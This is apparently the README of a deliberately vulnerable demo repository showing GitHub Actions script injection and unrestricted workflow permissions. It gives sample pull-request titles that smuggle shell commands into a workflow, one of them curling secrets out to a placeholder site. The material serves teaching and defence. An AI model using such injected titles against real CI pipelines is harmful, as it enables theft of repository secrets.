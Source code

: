 # Example Repo

This is a super simple example repository!

## Structure
* 'script-injection.yml'
  * Workflow vulnerable to script injection
    * Create a PR with title `a";echo Got your secrets"`
      * Echo in workflow execution
    * Create a PR with title `a";curl http:/...MyWebSite...?abc=$YourSecrets"`
      * Extract your secrets and curl to your website
* 'label-issues-real.yml'
  * Workflow which assigns the bug label when the issue's title contains bug word
    * It could make whatever since we aren't restricting workflow's permissions